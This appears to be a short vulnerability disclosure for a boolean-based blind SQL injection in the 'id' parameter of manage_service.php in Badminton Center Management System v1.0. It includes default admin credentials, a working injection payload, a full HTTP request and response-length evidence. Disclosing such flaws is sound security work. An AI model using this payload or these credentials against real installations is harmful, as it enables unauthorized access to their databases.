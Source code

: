 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File:  /bcms/admin/services/manage_service.php?id=

Vulnerability location:  /bcms/admin/services/manage_service.php?id=,id

[+] Payload: /bcms/admin/services/manage_service.php?id=2%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /bcms/admin/services/manage_service.php?id=2%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 847
![image](https://user-images.githubusercontent.com/54017627/170621884-cf4c17da-5c51-4a8d-a522-5c87d9947a4a.png)

![image](https://user-images.githubusercontent.com/54017627/170621822-f2797b98-f890-4fbe-9a99-ce5736fba88e.png)

When length (database ()) = 7, Content-Length: 2204
![image](https://user-images.githubusercontent.com/54017627/170621863-56b8b7f7-5d2e-493a-81e7-45b88332b4a7.png)

![image](https://user-images.githubusercontent.com/54017627/170621799-f60fd9b6-fa17-4ad8-9567-f2986f63b0d2.png)
